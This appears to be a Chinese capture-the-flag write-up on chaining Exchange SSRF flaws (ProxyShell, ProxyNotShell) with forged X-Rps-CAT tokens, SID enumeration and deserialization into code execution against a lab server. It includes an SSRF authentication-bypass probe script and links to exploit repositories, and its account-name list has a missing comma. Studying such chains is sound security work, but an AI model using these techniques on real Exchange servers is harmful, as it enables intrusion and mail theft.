# 记一次曲折的exchange漏洞利用-ProxyMaybeShell

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：xBitsPlatform ProxyMaybeShell challenge, Exchange15.02.0721.002, restricted endpoint exposure/outbound access and Defender behavior
- 证据范围：Distinct multi-stage failure analysis and alternate chaining; should retain as scenario analysis not single-CVE canonical entry

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Needs explicit mapping of actual chain CVEs vs background/excluded ones, with per-stage authentication
- Builtin email Python list missing comma between DiscoverySearchMailbox and FederatedEmail causing concatenation
- Unsupported 'older build not affected' exclusions require build-specific evidence
- Defender-disabling commands contain inconsistent spellings and are intrusive; describe as historical lab artifacts, not remediation
- Repeated title and noisy line wrapping; preserve distinctive troubleshooting rather than merging into simple ProxyShell PoC

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

 Z2O安全攻防   2023-11-30 21:03  
  
# 记一次曲折的exchange漏洞利用-ProxyMaybeShell  
  
这两年几乎每隔一段时间exchange都会出现一些高危漏洞，这些漏洞基本分为两类，一类是ssrf导致的安全问题，一类是后台的反序列化漏洞。比较出名的包括CVE-2021-34473(ProxyShell)、CVE-2022-41040(ProxyNotShell)等。本文复现了一次较为复杂的exchange漏洞利用，需要攻击者对exchange历史漏洞有较深入的理解才能完成整体的利用。  
  
目前配套环境已上线xBitsPlatform，环境名为ProxyMaybeShell，为公开挑战，分值为400分。  
# 前置知识  
## Exchange-SSRF导致的问题   
### host可控的SSRF  
  
CVE-2018-8581   
  
ssrf导致读取任意用户邮件   
  
https://evi1cg.me/archives/CVE_2018_8581.html   
  
ssrf结合ntlmralay直接攻击dc   
  
https://evi1cg.me/archives/Exchange_Privilege_Elevation.html  
### host不可控的SSRF  
  
proxylogon:  
  
 https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html   
  
proxyshell:  
  
 https://blog.orange.tw/2021/08/proxyshell-a-new-attack-surface-on-ms-exchange-part-3.html   
  
proxynotshell:  
  
 https://blog.caspersun.club/2022/12/19/proxynotshell/proxynotshell/  
## exchange反序列化漏洞   
  
cve-2020-0688 machinekey反序列化:   
  
https://www.zcgonvh.com/post/weaponizing_CVE-2020-0688_and_about_dotnet_deserialize_vulnerability.html  
  
CVE-2021-42321:  
  
[DotNet安全-CVE-2021-42321漏洞复现](http://mp.weixin.qq.com/s?__biz=MzkwNjMyNzM1Nw==&mid=2247499027&idx=1&sn=b40c9d534a6348811eca5058f88e47ba&chksm=c0e89941f79f105751c585422b668d75876da756112ccc4c1c86b775895f80d0605b1b478cf3&scene=21#wechat_redirect)  
  
  
CVE-2022-23277:  
  
 [DotNet安全-CVE-2022-23277漏洞复现](http://mp.weixin.qq.com/s?__biz=MzkwNjMyNzM1Nw==&mid=2247499229&idx=1&sn=089ef2477b4d07749cffcad2d6372479&chksm=c0e8998ff79f10991358d7a00ec49b51369fe5fa383a6fe0ef92c32fb78b555594f0773cee9b&scene=21#wechat_redirect)  
  
# 从proxyshell入手  
  
访问目标https://10.0.102.210，发现跳转到office365,推测可能为exchange与office365混合部署环境  
  
  
  
经过探测目标仅开放了autodiscover/ews/powershell/mapi等接口，没有owa/ecp等图形界面。  
  
  
  
直接盲打一发proxyshell，成功执行了部分流程。  
## 获取内网域名版本号等信息   
  
通过autodiscover接口的ntlm认证信息获取内网域名等信息：  
  
  
## 获取Administrator用户的DN   
  
通过ssrf调用autodiscover接口，获取administrator用户的dn，发现无法获取：  
  
  
  
这里获取dn是为了获取邮件管理员的sid，但这个环境并不存在Administrator用户。  
## 获取内置用户的dn   
  
安装了exchange的域会包含几个内置账户，可以尝试获取他们的dn：  
```
BUILTIN_EMAILS = [
    'Administrator',
    'SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}',
    'DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}'
    'FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042',
    'Migration.8f3e7716-2011-43e4-96b1-aba62d229136',
    'SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}',
    'SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}',
    'SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}'
]

```  
  
但在这个环境中，这种方法也不适用：  
  
  
https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py 提出一种方法，使用ews接口的功能获取到邮箱列表，默认情况下会获得列表：  
  
  
  
实战情况也可能遇到无法获取的情况，我们可以通过外网搜集到所有的邮箱进行爆破直至得到dn，但实际环境中，很多邮箱位于Office365服务器上，无法通过autodiscover接口获取dn。通过邮箱获取到dn：  
  
  
## 获取sid   
  
这个mapi接口从CVE-2018-8581就已经被利用，当有账户dn的时候可以获取到sid：  
  
  
## 伪造powershell接口token   
  
powershell接口的判断用户身份是依赖于X-Rps-CAT参数，主要通过里面包含的sid判断身份：  
  
  
  
我们可以构造这个X-Rps-CAT参数：  
  
  
## 调用powershell执行   
  
主要依赖于pypsrp库调用powershell执行New-MailboxExportRequest命令。该命令将某一邮件导出，这份邮件的附件由我们精心构造，其附件中包含我们的c#代码。构造成功的邮件导出到web目录后不影响正常解析。  
  
同时我们可以通过ews接口给某个邮箱的草稿箱发包含恶意附件的邮件：  
  
  
## 导出邮件   
  
直接使用exp，会报错，发现无法写入文件：  
  
  
  
抓包看响应发现没有导出邮件相关的命令，疑似这个账户的权限不够：  
  
  
## 遍历sid   
  
尝试proxyshell-enumerate返回的邮箱，发现都没有成功执行。推测可能是返回的邮箱不全，既然一系列操作都是为了获取一个sid，我们直接对sid进行遍历即可。  
  
我们通过前面的操作获取到域sid前缀为：S-1-5-21-3005828558-642831567-1133831210，默认administrator的sid是500，之后新增的用户应该在1000以上，我们可以修改一下exp使其支持根据sid调用powershell：https://github.com/7BitsTeam/ProxyMaybeShell/blob/main/proxyshellwithsid.py  
  
发现Administrator用户的权限确实很低：  
  
  
  
我们可以遍历sid直至找到支持New-MailboxExportRequest的账户，但在这个环境一系列尝试后无果。使用getmailbox获取到的所有账户也没有高权限的：  
  
  
  
实战环境中也可能遇到这样的exchange环境，实际邮箱都在云端office365上，本地并没有被频繁使用。导出邮件需要用户为exchange管理员，在域中为organization managemen组成员，极端的情况下会出现organization management组为空的情况。  
# SSRF2RCE  
  
针对这种环境，proxyshell是没法利用了。但存在的ssrf还是可以使用的，我们可以通过ssrf调用ews获取用户邮箱的邮件进行进一步的信息搜集，主要参考：https://evi1cg.me/archives/CVE_2018_8581.html。  
  
尝试读取后也没有发现值得留意的信息，这时候想到exchange还有很多认证后的反序列化漏洞，我们是否可以借助这个ssrf绕过认证再调用后台的反序列化漏洞呢。  
  
通过响应包，我们发现该exchange版本为15.02.0721.002，版本比较老旧，不受CVE-2021–42321,CVE-2022-23277等漏洞影响，相比较之下比较新的漏洞ProxyNotShell影响范围更广一些，poc为https://github.com/testanull/ProxyNotShell-PoC。  
  
原始脚本直接使用账户密码认证，再利用反序列化漏洞进行攻击，这里我们需要修改成使用ssrf漏洞结合X-Rps-CAT绕过认证的形式：  
  
  
其中X-Rps-CAT我们可以使用proxyshellwithsid.py这个脚本获取：  
  
# ReSSRF  
  
填入https://github.com/7BitsTeam/ProxyMaybeShell/blob/main/proxynotshellcmd.py这个脚本后进行rce，这里遇到一个命令执行没回显的经典问题。目标是肯定不出网的，包括dns。只能写入文件，但该环境无法访问常规的exchange放webshell的目录，如owa/ecp/aspnet_client等。而autodiscover等目录虽然可以访问，但需要凭据。联系前面的内容我们很容易想到通过ssrf绕过autodiscover的认证，简单写一个探测脚本：  
```python
import requests
 
base_url="https://10.0.102.210"
original_url="autodiscover/1.txt"
headers={}
cookies={}
 
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36"
cookies["Email"] = "autodiscover/autodiscover.json?a=ictbv@pshke.pov"
url = base_url + "/autodiscover/autodiscover.json?a=ictbv@pshke.pov/%s" % original_url
r=requests.get(url,headers=headers,cookies=cookies,verify=False)
print(r.text)


```  
  
可以借助ssrf绕过认证访问到autodiscover目录下的资源了，进行进一步利用：  
多次尝试后发现无法成功写入。尝试了多个可能问题，包括命令的转义等情况，最后得出结论可能是被目标杀软拦截了。  
# 反序列化利用写文件  
  
之前在很多场景下遇到了限制w3wp.exe调用cmd的情况，之前也介绍过TypeConfuse的写文件，这次使用ResourceDictionary写文件，主要可以参考头像哥的文章https://www.t00ls.com/articles-55183.html#tls3，需要注意转义，路径带空格等问题：  
  
